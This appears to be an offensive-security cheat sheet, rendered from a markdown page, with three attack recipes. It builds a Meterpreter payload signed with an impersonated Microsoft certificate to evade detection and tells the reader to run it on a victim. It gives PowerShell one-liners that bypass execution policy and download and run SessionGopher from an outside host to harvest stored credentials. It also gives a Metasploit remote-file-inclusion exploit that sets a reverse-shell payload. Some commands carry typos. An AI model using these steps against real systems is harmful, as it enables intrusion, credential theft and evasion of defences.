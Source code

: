 * * *

* * *

## Meterpreter SSL certificate Impersonation and Detection Evasion

1.  `use auxiliary/gather/impersonate_ssl`  
    `set RHOST www.microsoft.com`  
    after running this the metasploit will create files. The pem file is what we want.
2.  Then create a payload and while creating it `set handlerssslert [pem_file directory]` and `set stagerverifysslcert true`  
    Then generate the payload by `generate -t exe -f [path/payload.exe]`
3.  Then while creating a multi handler:  
    `set handlerssslert [pem_file directory]`  
    `set stagerverifysslcert true`
4.  Then transfer the payload to victim and execute.

* * *
* * *

## Obtaining stored credentials with SessionGopher

[SessionGopher](https://github.com/Arvanaghi/SessionGopher)  
Important link: [https://github.com/fireeye](https://github.com/fireeye)

Download the ps1 file ether by wget or anyother method.

Transfer the file to exploited machine by `powershell.exe -nop -ep bypass -C iex (New-Object Net.webclient).DownlaodString('http://192.168.13.71/SessionGopher.ps1'); Invoke-SessionGopher`  
Also can use like this  
`powershell.exe -nop -ep bypass -C iex (New-Object Net.webclient).DownlaodString('http://192.168.13.71/SessionGopher.ps1'); Invoke-SessionGopher -Thorough`

* * *

* * *

## Remote File Inclusion vulnerability

`use exploit/unix/webapp/php_include`  
`set RHOST 10.100.0.100`  
`set PHPURI /index.php?pag=XXpathXX`  
`set SRVHOST 172.16.5.20`  
`set PAYLOAD php/meterpreter/reverse_tcp`  
`set LHOST 172.16.5.20`  
`exploit`  
A link we will copy paste and put in the link. Open a handler before that you will get a shell.  
Be sure that this session is not stable.

We can upload upload a reverseshell payload and execute it at start of meterpreter session that is stable. We can use `php/exec` payload module to automatically tell meterpreter to run a specific command at statup.
